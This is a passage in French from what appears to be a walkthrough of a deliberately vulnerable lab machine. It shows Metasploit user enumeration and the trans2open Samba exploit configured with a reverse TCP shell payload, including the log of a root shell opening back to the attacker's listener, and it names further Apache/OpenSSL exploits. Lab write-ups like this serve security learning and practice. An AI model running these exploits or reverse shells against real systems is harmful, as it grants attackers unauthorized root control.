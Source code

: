 On peut aussi utiliser le module *apache\_userdir\_enum* de *Metasploit* avec une liste de noms d' utilisateurs, ce qui nous permet de trouver certains utilisateurs du système :  

```plain
[+] http://192.168.1.104/ - Users found: harold, john, operator, postgres, root, squid
```

Pwnage
------

Etant donné que le site Internet n'amène rien de probant, penchons nous sur les services en écoute.  

Metasploit a un exploit fiable pour ces vieilles versions de Samba :   

```plain
msf exploit(trans2open) > show options         

Module options (exploit/linux/samba/trans2open):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.1.104    yes       The target address
   RPORT  139              yes       The target port

Payload options (linux/x86/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.3      yes       The listen address
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce

msf exploit(trans2open) > exploit

[*] Started reverse TCP handler on 192.168.1.3:4444 
[*] 192.168.1.104:139 - Trying return address 0xbffffdfc...
[*] 192.168.1.104:139 - Trying return address 0xbffffcfc...
[*] 192.168.1.104:139 - Trying return address 0xbffffbfc...
[*] 192.168.1.104:139 - Trying return address 0xbffffafc...
[*] Sending stage (36 bytes) to 192.168.1.104
[*] Command shell session 1 opened (192.168.1.3:4444 -> 192.168.1.104:32770) at 2018-02-13 21:18:00 +0100

id
uid=0(root) gid=0(root) groups=99(nobody)
```

Et voilà !   

La version d'Apache / OpenSSL / mod\_ssl est aussi un bon candidat pour certains exploits bien connus (*OpenFuck*, *openssl-too-open*, et les [exploits ASN](http://devloop.users.sourceforge.net/index.php?article42/mass-apache-pwnage-from-romania)).  

